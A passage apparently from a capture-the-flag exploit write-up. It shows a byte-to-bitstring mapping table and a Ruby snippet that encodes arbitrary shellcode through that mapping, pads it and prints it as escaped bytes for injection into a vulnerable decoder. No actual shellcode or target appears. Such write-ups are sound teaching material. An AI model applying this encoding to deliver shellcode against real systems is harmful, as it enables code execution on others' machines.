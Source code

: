 In the end, @@seqs looks like this:

```

<span class="Statement">0</span> <span class="Normal">=</span>> <span class="Constant">0</span>
<span class="Statement">255</span> <span class="Normal">=</span>> <span class="Constant">1000</span>
<span class="Statement">215</span> <span class="Normal">=</span>> <span class="Constant">100100000000</span>
<span class="Statement">177</span> <span class="Normal">=</span>> <span class="Constant">100100000001</span>
<span class="Statement">30</span> <span class="Normal">=</span>> <span class="Constant">10010000001</span>
<span class="Statement">56</span> <span class="Normal">=</span>> <span class="Constant">1001000001</span>
<span class="Statement">220</span> <span class="Normal">=</span>> <span class="Constant">100100001</span>
<span class="Statement">114</span> <span class="Normal">=</span>> <span class="Constant">10010001</span>
<span class="Statement">7</span> <span class="Normal">=</span>> <span class="Constant">1001001</span>
<span class="Statement">133</span> <span class="Normal">=</span>> <span class="Constant">10010100</span>
<span class="Statement">97</span> <span class="Normal">=</span>> <span class="Constant">10010101</span>
...
```

Now that I have a mapping, I can do a bunch of lookups for the shellcode of my choice:

```

tree_code = <span class="Special">""</span>

<span class="Type">SHELLCODE</span>.split(<span class="Special">//</span>).each <span class="Statement">do</span> |<span class="Identifier">c</span>|
  tree_code += <span class="Identifier">@@seqs</span>[c.ord]
<span class="Statement">end</span>

<span class="Statement">while</span>((tree_code.length % <span class="Constant">8</span>) != <span class="Constant">0</span>) <span class="Statement">do</span>
  tree_code += <span class="Special">'</span><span class="Constant">0</span><span class="Special">'</span>
<span class="Statement">end</span>
tree_code = [tree_code].pack(<span class="Special">"</span><span class="Constant">B*</span><span class="Special">"</span>)
tree_code = [tree_code.length].pack(<span class="Special">"</span><span class="Constant">I</span><span class="Special">"</span>) + tree_code
tree_code.split(<span class="Special">//</span>).each <span class="Statement">do</span> |<span class="Identifier">b</span>|
  print(<span class="Special">'</span><span class="Constant">\x%02x</span><span class="Special">'</span> % b.ord)
<span class="Statement">end</span>
puts()
```

